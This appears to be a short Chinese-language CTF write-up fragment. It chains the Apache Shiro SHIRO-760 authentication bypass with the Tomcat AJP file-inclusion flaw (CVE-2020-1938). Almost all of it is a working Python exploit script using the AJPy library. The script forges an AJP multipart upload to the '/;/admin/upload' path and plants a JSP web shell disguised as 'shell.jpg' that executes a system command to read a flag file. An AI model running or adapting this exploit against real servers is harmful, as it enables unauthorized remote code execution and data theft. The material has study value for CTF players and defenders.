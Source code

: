 ![1](https://raw.githubusercontent.com/Ns1ookup/ns1ookup.github.io/master/_posts/login_me/7.png)

结合SHIRO-760漏洞，通过ajp上传文件：

https://issues.apache.org/jira/browse/SHIRO-760

精确的检测Tomcat AJP文件包含漏洞(CVE-2020-1938)

 

AJPy，在tomcat.py中提供了一种部署war包getshell的操作，这里面就有上传文件的操作

```
import sys
import os
from io import BytesIO
from ajpy.ajp import AjpResponse, AjpForwardRequest, AjpBodyRequest, NotFoundException
from tomcat import Tomcat
target_host = "127.0.0.1"
gc = Tomcat(target_host, 8009)
filename = "shell.jpg"
payload = "<% out.println(new java.io.BufferedReader(new java.io.InputStreamReader(Runtime.getRuntime().exec(\"cat /flag.txt\").getInputStream())).readLine()); %>"
with open("/tmp/request", "w+b") as f:
    s_form_header = '------WebKitFormBoundaryb2qpuwMoVtQJENti\r\nContent-Disposition: form-data; name="file"; filename="%s"\r\nContent-Type: application/octet-stream\r\n\r\n' % filename
    s_form_footer = '\r\n------WebKitFormBoundaryb2qpuwMoVtQJENti--\r\n'
    f.write(s_form_header.encode('utf-8'))
    f.write(payload.encode('utf-8'))
    f.write(s_form_footer.encode('utf-8'))
data_len = os.path.getsize("/tmp/request")
headers = {
        "SC_REQ_CONTENT_TYPE": "multipart/form-data; boundary=----WebKitFormBoundaryb2qpuwMoVtQJENti",
        "SC_REQ_CONTENT_LENGTH": "%d" % data_len,
}
attributes = [
    {
        "name": "req_attribute"
        , "value": ("javax.servlet.include.request_uri", "/;/admin/upload", )
    }
    , {
        "name": "req_attribute"
        , "value": ("javax.servlet.include.path_info", "/", )
    }
    , {
        "name": "req_attribute"
        , "value": ("javax.servlet.include.servlet_path", "", )
    }
, ]
hdrs, data = gc.perform_request("/", headers=headers, method="POST",  attributes=attributes)
with open("/tmp/request", "rb") as f:
    br = AjpBodyRequest(f, data_len, AjpBodyRequest.SERVER_TO_CONTAINER)
    responses = br.send_and_receive(gc.socket, gc.stream)
r = AjpResponse()
r.parse(gc.stream)
```